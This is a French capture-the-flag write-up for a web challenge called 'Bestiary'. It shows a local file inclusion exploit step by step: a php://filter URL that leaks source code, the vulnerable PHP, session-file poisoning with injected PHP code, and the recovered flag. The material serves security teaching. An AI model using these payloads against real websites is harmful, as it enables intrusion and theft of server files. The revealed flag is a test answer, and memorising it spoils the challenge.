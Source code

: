 <center><b>Bestary</b></center>
=================
</br>
<blockquote>On vous demande simplement de trouver le flag.
</blockquote>
<br>
Donc on arrive sur une page comme celle-ci où l'on nous demande de choisir un monstre 

![](./bestiary.png)

On choisit donc un monstre et on appuit sur "show description" et là on peut rearquer plusieurs choses

![](./bestiary1.png)

D'abord on peut voir que l'url à changée, '?monster' s'est rajouté avec comme paramètre le nom de notre monstre. C'est sûrement là que nous allons avoir une vulnérabilité, sûrement une LFI (Local File Inclusion) ou une RFI (Remote File Inclusion).
<br>
Ensuite nous pouvons également voir que notre PHPSESSID a changé en même temps que le monstre, ça pourrait nous aider plus tard.
<br>

Bref revenons à notre faille, on essaye alors d'inclure index.php en paramètre à '?monster' et on y arrive finalement en utilisant les wrappers :

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php

On reçoit alors le code source de index.php en base64, nous avons juste à le decoder, ce qui nous donne :

    <?php
	    session_save_path("./sessions/");
	    session_start();
	    include_once('flag.php');
    ?>
    <html>
    <head>
	    <title>Bestiary</title>
    </head>
    <body style="background-color:#3CB371;">
    <center><h1>Bestiary</h1></center>
    <script>
    function show()
    {
	    var monster = document.getElementById("monster").value;
	    .location.href = "index.php?monster="+monster;
    }
    </script>

    <p>
    <?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
    ?>
    </p>

    <select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
    </select> <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
    </body>
    </html>


En lisant `session_save_path("./sessions/");` on peut déjà deviner le fichier dans lequel notre session sera stockée :

    http://challenges2.france-cybersecurity-challenge.fr:5004/sessions/sess_inserezvotrephpsessid

![](./bestiary2.png)

On peut alors voir que nous voyons le dernier monstre que nous avons visité. Mais si, vous ne vous rappelez pas ? Le cookie est changé en fonction du dernier monstre que nous avons regardé.<br>
C'est là que se trouve la vulnérabilité, si nous voulions afficher autre chose que le dernier monstre que nous avons regardé, il le serait totalement possible en changeant tout simplement le paramètre de 'monstre' dans l'index.<br>

Mais comment on a le flag ducoup ?<br>
Et bien vu que nous ne pouvons pas inclure le fichier 'flag.php', déjà inclus dans l'index.php, à cause de la fonction `include_once('flag.php');`.
Et bien il faut essayer de l'afficher sans l'inclure, ce que nous pouvons faire aisément avec les instructions `echo file_get_contents()` en php.
Essayons ça : 
<br>
<br>
On met met d'abord notre code en paramètre de 'monster'

    challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php') ?>

Ensuite il nous suffit d'inclure la path contenant notre session en exploitant la LFI 

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=./sessions/sess_votrephpsessid

La page ne nous retourne aucune erreur donc nous avons bien réussi à inclure le fichier, nous affichons le code source, et voilà notre fameux flag !

    monster|s:43:"<?php
	$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";
